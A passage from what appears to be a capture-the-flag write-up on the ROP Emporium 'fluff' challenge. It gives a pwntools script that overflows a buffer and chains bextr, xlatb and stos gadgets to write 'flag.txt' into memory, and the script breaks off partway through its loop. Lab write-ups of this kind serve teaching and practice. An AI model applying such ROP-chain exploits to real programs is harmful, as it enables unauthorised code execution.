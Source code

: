 ```
Finally, after a lot of calculations I managed to build the ROP chain. The key here was how was I going to find addresses of already existing characters for my desired string? Well... turns out ```pwntools``` already had me covered with its ```context.binary.search()``` method!
That's how powerful this framework is!
Alright, enough talk.... I am proud to present to you... the final script:

```python
#!/usr/bin/env python3

from pwn import *

context.arch = "amd64"
context.bits = 64
context.endian = "little"
context.os = "linux"
context.binary = ELF("./fluff")

# useful addresses
data_addr = p64(0x60102b)
print_file = p64(0x400510) # print_file@plt

# ROP gadgets
bextr = p64(0x40062a) # pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx; ret
pop_rdi = p64(0x4006a3) # pop rdi ; ret
xlatb = p64(0x400628) # xlatb; ret
stos = p64(0x400639) # stos BYTE PTR es:[rdi], al

# as mentioned before, al is 0xb before jumping into our ROP chain
al = 0xb

# we want our rdx se to 0xb100000000 for simplicity in bextr
rdx = p64(0x2000)

# string we want in our memory, in this case "flag.txt"
string_flag = b'flag.txt'

# use search to find addresses in memory containing relevant bytes
e = context.binary

# build "flag.txt" dictionary, each key representing a character of "flag.txt"
# the values will represent the address in memort where this character can be found
flag_dict = {}
for c in string_flag:
    flag_dict[c] = next(e.search(c))

payload = 40 * b'A' # initial overflow

# Let's first get address of .data into rdi
payload += pop_rdi
payload += data_addr

# now build ROP chain for each character of our desired string
for c in string_flag:
    # prepare al for xlatb and get the modified address
    mod_addr = flag_dict[c] - al
    al = c # xlatb will change al to the dereferenced byte after xlatb
    
    # prepare rcx for bextr
    rcx = p64(mod_addr - 0x3ef2)

    # continue ROPchain
    # 1. setup bextr gadget
    payload += bextr
```